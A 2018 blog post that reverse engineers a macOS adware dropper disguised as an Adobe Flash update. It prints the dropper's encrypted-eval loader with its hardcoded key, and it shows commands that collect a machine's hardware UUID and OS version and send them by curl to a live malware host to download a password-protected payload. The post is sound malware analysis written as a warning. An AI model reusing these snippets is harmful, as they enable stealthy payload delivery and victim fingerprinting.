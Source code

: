 +++ 
draft = false
date = 2018-10-16T16:51:10+02:00
title = "Reverse Engineering macOS fake Adobe Flash Update"
tags = ["Reverse Engineering", "Adware", "InfoSec"]
categories = ["Blog"]
+++

## A friend goof!

The incident started with an inattentive friend who just downloaded and installed a fake Adobe Flash Update for his Macbook.
The culprit ? While browsing [izap4u.com](http://izap4u.com/) (a french website who offers compilations of funny videos), the website showed a malicious pop-up message for an update of Adobe Flash Player.
It's not the case anymore. I do hope it's over.

## Clean up the mess

He reached to me for help and I quickly advised him to install [Malwarebytes for Mac](https://www.malwarebytes.com/mac/).
This software let you easily scan and removes malware and works great on MacOS.
He installed it and launched a threat scan; obviously the scan found the malware and helped my friend erase it.

## Curiosity

I was curious about this Adware so I downloaded it too, in order to reverse it!
At first glance it's small in size [.dmg](https://en.wikipedia.org/wiki/Apple_Disk_Image) (~108KB only).
It contains a "Player_XXX.app" which is represented by the classic Flash Player icon.

Here is the package structure:
```
/Volumes/Player
❯ tree Player_061.app
Player_061.app
└── Contents
    ├── Info.plist
    ├── MacOS
    │   └── hikx4NR1tZPZLkfhszbSF2SglR1V8iKE3Q
    ├── Resources
    │   ├── app4862950061.icns
    │   └── enc
    └── _CodeSignature
        ├── CodeDirectory
        ├── CodeRequirements
        ├── CodeRequirements-1
        ├── CodeResources
        └── CodeSignature

4 directories, 9 files
```

## Dig in

### First Analysis

Here we will look at two files `enc` and `hikx4NR1tZPZPZLkfhszbSF2SglR1V8iKE3Q`:
```
❯ file Player_061.app/Contents/MacOS/hikx4NR1tZPZLkfhszbSF2SglR1V8iKE3Q
Player_061.app/Contents/MacOS/hikx4NR1tZPZLkfhszbSF2SglR1V8iKE3Q: Bourne-Again shell script text executable, ASCII text
```
```
❯ cat Player_061.app/Contents/MacOS/hikx4NR1tZPZLkfhszbSF2SglR1V8iKE3Q
#!/bin/bash
cd "$(dirname "$BASH_SOURCE")"
fileDir="$(dirname "$(pwd -P)")"
eval "$(openssl enc -base64 -d -aes-256-cbc -nosalt -pass pass:4862950061 <"$fileDir"/Resources/enc)"
```
```
❯ file Player_061.app/Contents/Resources/enc
Player_061.app/Contents/Resources/enc: ASCII text
```
*You can find base64 encrypted content here:* [`enc`](https://gist.github.com/oxynux/0221cfe7920f0a8d22ec75f5f63c3f25).


Here, we have a bash script and a base64 encoded text file.

### Decrypt `enc`

`hikx4NR1tZPZLkfhszbSF2SglR1V8iKE3Q` BASH script help us to decrypt `enc` file with this command:
```
openssl enc -base64 -d -aes-256-cbc -nosalt -pass pass:4862950061 </tmp/Player/Player_061.app/Contents/Resources/enc
```
*You can see the result here (spoiler it's a bash script too!):* [`decrypted_enc.sh`](https://gist.github.com/oxynux/460e01bf0045524af8a3bced006cf1ad/7a24e26c3b851dfda4af549bd4c0f6018c2a6360).


### What does this script do?

This bash script strongly rely on the `eval` command.
But what does `eval` do ?
If you type `help eval` inside a Terminal on MacOS you will get:
```
eval: eval [arg ...]
    Read ARGs as input to the shell and execute the resulting command(s).
```
Pretty easy, right ?

Eval basically concatenates all arguments and executes the result as a command.
We don't want to install this Adware so we are going to replace the last `eval` by `echo` which only print out the script instead of running it: [`decrypted_enc.sh`](https://gist.github.com/oxynux/460e01bf0045524af8a3bced006cf1ad/90ccb26323a6abfd5f19dcce425cada627e76df5).

`chmod +x decrypted_enc.sh` and then execute it.

We obtain this (spoiler it's again a bash script! Script-ception never end): [`final_decrypted_enc.sh`](https://gist.github.com/oxynux/98636477186b97834f8300ac80e6df8b/1b73f0d053a68fe12d2bca7b5b8cdc7f1102fdad).

### Prepare the script

This script has a lot of variables, but they are not prefixed by `export ` because it's useless inside an `eval`.
So we have to slightly modify it to make it work outside an `eval`:

- We add `export` before every variable, and remove `>/dev/null 2>&1` whom silence `stderr` and `stdout`, we also add `-v` to the `curl` command for debugging purposes.

- We also want to catch all variables values of this script, so we add a `echo interesting_var=$interesting_var` for all of these. 

- Finally, we want to print script lines as they are read to follow along while it's running. `set -v` allows us to do this.

- One last thing: we definitely don't want to install the Adware so we comment the last two lines -which open the malicious file and make it executable- with `#`.

Here is the final script ready to launch: [`final_decrypted_enc.sh`](https://gist.github.com/oxynux/98636477186b97834f8300ac80e6df8b/2efc9a09b588900a9a2732e7fc89dd717776f409).

### (What does this script do?)²

After this we can launch the script to better understand how it works.

Here's the interesting outputs:

_MacOS version_
```
sw_vers -productVersion
os_version=10.14.1
```

_An Universally Unique IDentifier (UUID)_
```
uuidgen
session_guid=05D6295D-5A6E-43EE-BA60-D602682FAA43
```  

_The unique equipment identifier IOPlatformUUID (I have anonymized mine)_
```
echo -n "$(ioreg -rd1 -c IOPlatformExpertDevice | grep -o '"IOPlatformUUID" = "\(.*\)"' | sed -E -n 's@.*"([^"]+)"@\1@p')" | tr -dc '[[:print:]]'
machine_id=XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX
```  

_The url to download the malware: it uses `$os_version`, `$session_guid` and `$machine_id`_
```
url="http://api.binarysources.com/sd/?c=_pl_GJybQ==&u=$machine_id&s=$session_guid&o=$os_version&b=4862950061"
curl -v -f0L "$url" >>$tmp_path
```  

_The .zip dowload via `$url` seems to alway have the same password_
```
unzip_password="16005926849404862950061"
unzip -P "$unzip_password" "$tmp_path" -d "$app_dir"
```  


This script uses `curl` to download the malware, share the macOS version, UUID and the IOPlatformUUID of the victim to the server with [query string](https://en.wikipedia.org/wiki/Query_string).
I think the malware is generated thanks to this, it aims to be unique so it can dupe [Apple Gatekeeper](https://en.wikipedia.org/wiki/Gatekeeper_(macOS)).

### Side note

When I attempted to download the malware the url didn't work anymore so I couldn't continue the reverse engineering.
```
curl -v -f0L "$url" >>$tmp_path
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 88.221.14.24...
* TCP_NODELAY set
* Connected to api.binarysources.com (88.221.14.24) port 80 (#0)
> GET /sd/?c=_pl_GJybQ==&u=XXXXXXXX-XXXX-XXXX-XXXX-XXXXXXXXXXXX&s=05D6295D-5A6E-43EE-BA60-D602682FAA43&o=10.14.1&b=4862950061 HTTP/1.0
> Host: api.binarysources.com
> User-Agent: curl/7.62.0
> Accept: */*
>
* The requested URL returned error: 404 Not Found
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
* Closing connection 0
curl: (22) The requested URL returned error: 404 Not Found
```

## Conclusion

Be vigilant when you surf the internet and don't type your password when your are not sure about installer safety.
